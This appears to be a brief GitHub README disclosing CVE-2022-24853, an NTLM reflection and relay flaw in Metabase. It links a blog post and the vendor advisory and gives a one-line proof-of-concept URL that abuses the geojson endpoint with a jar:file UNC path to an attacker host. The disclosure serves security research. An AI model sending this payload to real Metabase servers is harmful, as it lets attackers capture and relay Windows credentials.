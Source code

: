 # CVE-2022-24853
Metabase NTLM Reflection / Relay Attack [CVE-2022-24853](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-24853)

Blog Post about the finding: https://secure77.de/metabase-ntlm-relay-attack/

Github Security Advisory: https://github.com/metabase/metabase/security/advisories/GHSA-5cfq-582c-c38m


## POC
```plain
http://metabase-target-server.com/api/geojson?url=jar:file:\<attacker-ip>\test.txt!/
```


